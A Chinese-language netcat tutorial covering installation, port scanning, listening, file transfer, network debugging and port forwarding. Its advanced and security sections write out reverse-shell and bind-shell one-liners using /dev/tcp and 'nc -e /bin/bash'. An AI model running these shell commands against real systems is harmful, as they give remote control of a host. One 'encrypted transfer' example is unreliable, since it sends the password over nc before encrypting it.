

netcat（简称 nc）是一款功能强大的网络工具，被广泛应用于系统管理和网络安全领域。它就像一把"网络瑞士军刀"，能够读写 TCP 或 UDP 数据流，实现端口扫描、文件传输、端口监听、调试网络服务等多种功能。由于其简单高效、功能全面，netcat 成为系统管理员、安全工程师和开发人员的必备工具之一。

<!-- more -->

## 简介

### 什么是 Netcat

**Netcat** 是一个简单而实用的网络工具，最初由 Hobbit 在 1995 年开发。它可以在两台计算机之间创建 TCP 或 UDP 连接，并在连接中传输数据。Netcat 的设计哲学是"简单就是美"，它没有复杂的功能，但通过组合使用可以实现强大的网络操作。

### 核心特性

| 特性 | 说明 |
|------|------|
| **双向数据传输** | 支持在客户端和服务器之间双向传输数据 |
| **协议支持** | 同时支持 TCP 和 UDP 协议 |
| **端口扫描** | 可用于扫描目标主机的开放端口 |
| **文件传输** | 可以在两台主机之间传输文件 |
| **端口监听** | 可以作为简单的服务器监听指定端口 |
| **网络调试** | 可用于调试和测试网络服务 |

### 与其他工具对比

| 特性 | netcat | nmap | telnet | socat |
|------|--------|------|--------|-------|
| 端口扫描 | 支持 | 强大 | 不支持 | 支持 |
| 文件传输 | 支持 | 不支持 | 不支持 | 支持 |
| 协议支持 | TCP/UDP | TCP/UDP | TCP | TCP/UDP/Unix等 |
| 复杂度 | 简单 | 复杂 | 简单 | 复杂 |
| 双向通信 | 支持 | 不支持 | 支持 | 支持 |

**netcat 的优势**：工具小巧、功能全面、学习曲线平缓、适合快速原型和临时解决方案。

## 安装

### Linux 系统安装

**Debian/Ubuntu：**

```bash
# 安装传统版本的 netcat
sudo apt-get update
sudo apt-get install netcat

# 安装 GNU 版本的 netcat（功能更丰富）
sudo apt-get install netcat-openbsd

# 或安装 ncat（Nmap 套件的一部分，功能更强大）
sudo apt-get install nmap
```

**CentOS/RHEL：**

```bash
# CentOS 7/RHEL 7
sudo yum install nc

# CentOS 8/RHEL 8/Fedora
sudo dnf install nc
```

**Arch Linux：**

```bash
sudo pacman -S gnu-netcat
```

### macOS 安装

```bash
# 使用 Homebrew 安装
brew install netcat

# 或安装 ncat
brew install nmap
```

### 验证安装

```bash
# 检查 netcat 版本
nc -h

# 查看 ncat 版本
ncat -h

# 检查是否已安装
which nc
```

## 核心概念

### TCP vs UDP

netcat 支持两种网络协议，理解它们的区别很重要：



### 工作模式

netcat 有两种主要的工作模式：

1. **客户端模式**：连接到远程主机的指定端口
2. **服务器模式**：监听本地端口，等待客户端连接

### 数据流向

```
客户端模式              服务器模式
   |                        |
   v                        v
[stdin] ──> [nc] ──> 网络 ──> [nc] ──> [stdout]
   ↑                        ↑
[stdout] <── [nc] <── 网络 <── [nc] <── [stdin]
```

## 基本用法

### 客户端模式

最简单的使用方式是连接到远程主机的端口：

```bash
# 基本语法
nc [选项] 主机 端口

# 示例：连接到网站的 80 端口
nc www.example.com 80
```

连接后，你可以手动输入要发送的数据：

```bash
root@server:~# nc www.example.com 80
GET / HTTP/1.0
Host: www.example.com

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1256
Connection: close

<!DOCTYPE html>
<html>
...
```

### 服务器模式

使用 `-l` 参数进入监听模式：

```bash
# 监听本地 1234 端口
nc -l 1234
```

此时，其他终端可以使用客户端连接：

```bash
nc localhost 1234
```

### 常用参数

| 参数 | 说明 |
|------|------|
| `-l` | 监听模式（服务器端） |
| `-p` | 指定源端口 |
| `-v` | 显示详细信息 |
| `-n` | 不进行 DNS 解析 |
| `-u` | 使用 UDP 协议 |
| `-z` | 扫描模式（不发送数据） |
| `-w` | 设置超时时间（秒） |
| `-q` | 延迟退出时间（秒） |
| `-k` | 保持监听（允许多个连接） |

## 端口扫描

netcat 可以用来快速扫描目标主机的开放端口。

### 基本扫描

```bash
# 扫描单个端口
nc -zv 192.168.1.100 22
Connection to 192.168.1.100 22 port [tcp/ssh] succeeded!

# 扫描端口范围
nc -zv localhost 1-100
```

输出示例：

```
Connection to localhost 22 port [tcp/ssh] succeeded!
Connection to localhost 80 port [tcp/http] succeeded!
Connection to localhost 443 port [tcp/https] succeeded!
```

### 常用端口扫描

```bash
# 扫描常见 Web 端口
nc -zv example.com 80 443 8080 8443

# 扫描数据库端口
nc -zv db.example.com 3306 5432 27017

# 扫描多个主机
for host in 192.168.1.{1..10}; do
    nc -zv $host 22 2>/dev/null && echo "$host: SSH open"
done
```

### 扫描选项组合

```bash
# -n：不进行 DNS 解析，加快扫描速度
# -z：零 I/O 模式，仅扫描端口
# -v：显示详细输出
nc -nzv 192.168.1.100 1-1000

# 设置超时时间
nc -nzvw 2 192.168.1.100 1-1000
```

## 端口监听

### 基本监听

```bash
# 监听指定端口
nc -l 1234

# 监听并显示详细信息
nc -lv 1234

# 监听 UDP 端口
nc -lu 1234
```

### 持续监听

默认情况下，netcat 在一个连接关闭后会退出。使用 `-k` 参数可以持续监听：

```bash
# 持续监听，允许多个连接
nc -lk 1234

# 或使用 while 循环
while true; do nc -l 1234; done
```

### 指定监听地址

```bash
# 监听所有网络接口
nc -l 0.0.0.0 1234

# 仅监听本地回环地址
nc -l 127.0.0.1 1234

# 监听特定网卡
nc -l 192.168.1.100 1234
```

## 文件传输

### 单向文件传输

**接收端（服务器）：**

```bash
# 监听并保存接收到的文件
nc -l 1234 > received_file.txt
```

**发送端（客户端）：**

```bash
# 发送文件
nc server_ip 1234 < myfile.txt
```

### 传输进度显示

使用 pv 命令显示传输进度：

```bash
# 接收端
nc -l 1234 | pv > received_file.txt

# 发送端
pv myfile.txt | nc server_ip 1234
```

### 带压缩的文件传输

```bash
# 发送端：压缩后发送
gzip -c myfile.txt | nc server_ip 1234

# 接收端：接收后解压
nc -l 1234 | gunzip > received_file.txt
```

### 传输大文件

对于大文件传输，可以结合 tar 使用：

```bash
# 发送端：打包并发送
tar czf - /path/to/directory | nc server_ip 1234

# 接收端：接收并解包
nc -l 1234 | tar xzf -
```

## 简单聊天

### 基本聊天

**服务端：**

```bash
nc -l 1234
```

**客户端：**

```bash
nc server_ip 1234
```

连接建立后，双方输入的内容会实时传输到对方。

### 聊天服务器

使用 `-k` 参数创建聊天服务器：

```bash
nc -lk 1234
```

多个客户端可以连接并相互聊天。

## 创建简单服务器

### HTTP 服务器

```bash
# 简单的 HTTP 服务器
echo -e "HTTP/1.1 200 OK\nContent-Type: text/html\n\n<h1>Hello World</h1>" | nc -l 8080
```

### 持续运行的 HTTP 服务器

```bash
while true; do
    echo -e "HTTP/1.1 200 OK\nContent-Type: text/html\n\n<h1>Hello World</h1>" | nc -l 8080
done
```

### 响应不同请求

```bash
while true; do
    nc -l 8080 | while read request; do
        echo "$request"
        echo -e "HTTP/1.1 200 OK\nContent-Type: text/plain\n\nResponse: $(date)"
    done
done
```

## 网络调试

### 测试 HTTP 服务

```bash
# 手动发送 HTTP 请求
nc www.example.com 80
GET / HTTP/1.1
Host: www.example.com

# 测试 HEAD 请求
nc www.example.com 80
HEAD / HTTP/1.1
Host: www.example.com

# 测试特定页面
nc www.example.com 80
GET /api/status HTTP/1.1
Host: www.example.com
```

### 测试 SMTP 服务

```bash
nc smtp.example.com 25
220 smtp.example.com ESMTP Postfix
EHLO client.example.com
250-smtp.example.com
250-PIPELINING
250-SIZE 10240000
250 VRFY
QUIT
221 Bye
```

### 测试 FTP 服务

```bash
nc ftp.example.com 21
220 ProFTPD 1.3.5 Server (Debian) [::ffff:192.168.1.100]
USER username
331 Password required for username
PASS password
230 User username logged in
QUIT
221 Goodbye.
```

### 检查网络连通性

```bash
# 检查 TCP 连通性
nc -zv 192.168.1.100 22

# 检查 UDP 连通性
nc -uzv 192.168.1.100 53

# 设置超时时间
nc -zw 3 192.168.1.100 22
```

## UDP 通信

### 基本 UDP 通信

**服务器端：**

```bash
nc -lu 1234
```

**客户端：**

```bash
nc -u server_ip 1234
```

### UDP 端口扫描

```bash
# 扫描 UDP 端口
nc -uzv 192.168.1.100 53
nc -uzv 192.168.1.100 123

# 扫描 UDP 端口范围
nc -uzv 192.168.1.100 1-100
```

### UDP 聊天

```bash
# 服务器端
nc -luk 1234

# 客户端
nc -uk server_ip 1234
```

## 高级用法

### 端口转发

使用命名管道实现端口转发：

```bash
# 创建命名管道
mkfifo backpipe

# 端口转发：本地 8080 -> 远程 80
nc -l 8080 0<backpipe | nc www.example.com 80 1>backpipe
```

### 反向 Shell

**服务器端（监听者）：**

```bash
nc -l 1234
```

**客户端（被控者）：**

```bash
# Bash 反向 Shell
/bin/bash -i >& /dev/tcp/server_ip/1234 0>&1

# 或使用 nc
nc server_ip 1234 -e /bin/bash
```

### 正向 Shell

**服务端（被控者）：**

```bash
nc -l 1234 -e /bin/bash
```

**客户端（控制者）：**

```bash
nc server_ip 1234
```

### 网络流量录制

```bash
# 录制网络流量
nc -l 1234 > traffic.log

# 重放流量
nc server_ip 1234 < traffic.log
```

## 实战案例

### 场景：快速文件共享

假设需要在两台服务器之间快速传输文件：

```bash
# 接收端（服务器 A）
nc -l 1234 > backup.tar.gz

# 发送端（服务器 B）
tar czf - /path/to/backup | nc server_a_ip 1234
```

### 场景：测试防火墙规则

测试防火墙是否允许特定端口：

```bash
# 测试出站连接
nc -zv google.com 80
nc -zv google.com 443

# 测试入站连接
nc -lk 1234
# 从另一台机器尝试连接
nc server_ip 1234
```

### 场景：网络性能测试

```bash
# 测试网络带宽
# 接收端
dd if=/dev/zero bs=1M count=100 | nc -l 1234

# 发送端
nc server_ip 1234 > /dev/null

# 查看传输速度
# 使用 pv 显示进度
dd if=/dev/zero bs=1M count=100 | pv | nc -l 1234
```

### 场景：服务健康检查

编写简单的健康检查脚本：

```bash
#!/bin/bash
# health_check.sh

HOST="192.168.1.100"
PORTS=(22 80 443 3306)

for port in "${PORTS[@]}"; do
    if nc -zw 2 $HOST $port 2>/dev/null; then
        echo "Port $port: OK"
    else
        echo "Port $port: FAILED"
    fi
done
```

## 常见问题

### 连接被拒绝

**现象**：执行 `nc` 时提示 "Connection refused"

**可能原因**：
1. 目标端口未开放或服务未运行
2. 防火墙阻止连接
3. 目标主机不可达

**解决方法**：

```bash
# 检查目标端口是否监听
ss -tlnp | grep :22
# 或
netstat -tlnp | grep :22

# 检查防火墙规则
sudo iptables -L -n
# 或
sudo firewall-cmd --list-all

# 使用 -v 参数查看详细信息
nc -v 192.168.1.100 22
```

### 连接超时

**现象**：连接长时间无响应

**解决方法**：

```bash
# 设置超时时间（秒）
nc -w 5 192.168.1.100 22

# 增加 -v 参数查看连接过程
nc -vw 5 192.168.1.100 22
```

### 文件传输不完整

**现象**：传输的文件与源文件大小不一致

**解决方法**：

```bash
# 发送端：使用 pv 显示传输进度
pv source_file | nc server_ip 1234

# 接收端：使用 pv 显示接收进度
nc -l 1234 | pv > dest_file

# 传输完成后校验文件
# 发送端
md5sum source_file

# 接收端
md5sum dest_file
```

### UDP 连接问题

**现象**：UDP 连接无法正常工作

**注意**：UDP 是无连接协议，`-z` 参数可能不准确：

```bash
# 更好的 UDP 测试方法：实际发送数据
echo "test" | nc -u server_ip 1234

# 或使用 -w 参数设置超时
echo "test" | nc -uw 1 server_ip 1234
```

## 安全注意事项

### 反向 Shell 风险

netcat 可以被用于创建反向 Shell，这既是强大功能也是安全风险：

```bash
# 危险：不要在不信任的环境中执行
nc server_ip 1234 -e /bin/bash
```

### 敏感信息泄露

使用 netcat 时注意避免传输敏感信息：

```bash
# 错误：密码明文传输
echo "password123" | nc server_ip 1234

# 正确：使用加密通道
echo "password123" | nc server_ip 1234 | openssl enc -aes-256-cbc
```

### 网络监听风险

监听端口会暴露服务，建议：

```bash
# 仅监听本地回环地址（仅本地访问）
nc -l 127.0.0.1 1234

# 使用防火墙限制访问
sudo iptables -A INPUT -p tcp --dport 1234 -s trusted_ip -j ACCEPT
```

## 最佳实践

### 调试技巧

1. **使用 -v 参数**：始终使用 `-v` 参数查看详细信息
2. **设置超时**：使用 `-w` 参数避免长时间等待
3. **验证传输**：文件传输后验证 MD5/SHA 值
4. **记录日志**：将输出重定向到日志文件便于分析

```bash
# 组合使用最佳实践
nc -vzw 3 192.168.1.100 22 2>&1 | tee nc.log
```

### 脚本化使用

netcat 非常适合在脚本中使用：

```bash
#!/bin/bash
# check_service.sh

check_port() {
    local host=$1
    local port=$2

    if nc -zw 2 $host $port 2>/dev/null; then
        echo "[OK] $host:$port is reachable"
        return 0
    else
        echo "[FAIL] $host:$port is unreachable"
        return 1
    fi
}

check_port "192.168.1.100" 22
check_port "192.168.1.100" 80
```

### 性能优化

```bash
# 不进行 DNS 解析（加快连接速度）
nc -n 192.168.1.100 22

# 批量扫描（避免逐个扫描）
nc -zv 192.168.1.100 1-1000
```

## 替代工具

netcat 功能强大，但某些场景下其他工具可能更合适：

| 场景 | 推荐工具 |
|------|----------|
| 端口扫描 | nmap |
| 文件传输 | scp, rsync |
| 实时聊天 | netcat |
| 复杂转发 | socat, ssh 隧道 |
| HTTP 调试 | curl, wget |
| 网络抓包 | tcpdump, wireshark |

## 总结

netcat 是一个简洁而强大的网络工具，被誉为"网络瑞士军刀"。它简单易用、功能全面，适用于多种网络场景：

- **端口扫描**：快速检查主机开放端口
- **文件传输**：临时快速传输文件
- **端口监听**：创建简单的服务器
- **网络调试**：测试和调试网络服务
- **双向通信**：实现简单的聊天程序

虽然现代网络工具有了很多发展，但 netcat 依然是每个系统管理员和网络工程师工具箱中不可或缺的工具。掌握 netcat 的使用，将大大提升你的工作效率。

## 参考资源

- [Netcat Man Page](https://linux.die.net/man/1/nc)
- [Ncat Reference Guide](https://nmap.org/ncat/guide/)
- [Netcat Wikipedia](https://en.wikipedia.org/wiki/Netcat)
